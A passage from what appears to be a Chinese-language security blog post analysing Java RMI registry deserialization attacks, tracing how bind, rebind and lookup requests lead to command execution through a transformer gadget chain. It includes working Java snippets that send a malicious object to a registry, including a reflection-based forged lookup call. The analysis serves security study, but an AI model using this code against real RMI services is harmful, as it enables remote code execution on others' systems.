 由于 RMI 很多方法的参数都是 Remote 类型，所以要用 Remote 类型的代理对象封装 evalObject，当代理对象反序列化时，evalObject 也会进行反序列化。


### Server/Client --> Registry {#server-client-registry}

先看看 registry 中最容易利用的两个方法 bind 和 rebind，它们会对接收到的序列化对象进行反序列化：

{{< figure src="/ox-hugo/2021-03-04_13-47-15_screenshot.png" >}}

通过 Poc#getObject 生成恶意对象，调用 bind 方法(rebind 类同)传给 registry。

```java
Registry registry = LocateRegistry.getRegistry(3333);
registry.bind("User", (new Poc()).getObject());
```

RegistryImpl\_Skel#dispatch 处理请求：

{{< figure src="/ox-hugo/2021-03-05_15-32-01_screenshot.png" >}}

反序列化 AnnotationInvocationHandler 对象，调用 `var5.setValue()` 方法：

{{< figure src="/ox-hugo/2021-03-05_15-42-18_screenshot.png" >}}

调用 ChainedTransformer#transform，触发命令执行：

{{< figure src="/ox-hugo/2021-03-05_15-44-54_screenshot.png" >}}

{{< figure src="/ox-hugo/2021-03-05_15-49-19_screenshot.png" >}}

接下来尝试利用 lookup 方法(unbind 类同)，它接收的是 String 参数，不能直接传递恶意对象。

但前面的分析过程我们已经知道，RegistryImpl\_Skel#dispatch 是通过一个数字来判断执行什么操作的，所以它并不能判断我们传过去的是不是 String 对象，那我们仿照 lookup 方法的逻辑来发送恶意对象不就好了。

看一下 RegistryImpl\_Stub#lookup 方法的关键操作：

{{< figure src="/ox-hugo/2021-03-05_16-07-33_screenshot.png" >}}

通过以下代码伪造 lookup 请求：

```java
Registry registry = LocateRegistry.getRegistry(3333);
// 获取super.ref
Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();
fields_0[0].setAccessible(true);
UnicastRef ref = (UnicastRef) fields_0[0].get(registry);

// 获取operations
Field[] fields_1 = registry.getClass().getDeclaredFields();
fields_1[0].setAccessible(true);
Operation[] operations = (Operation[]) fields_1[0].get(registry);

// 模仿lookup方法
RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
ObjectOutput var3 = var2.getOutputStream();
var3.writeObject(Poc.getObject());
ref.invoke(var2);
```
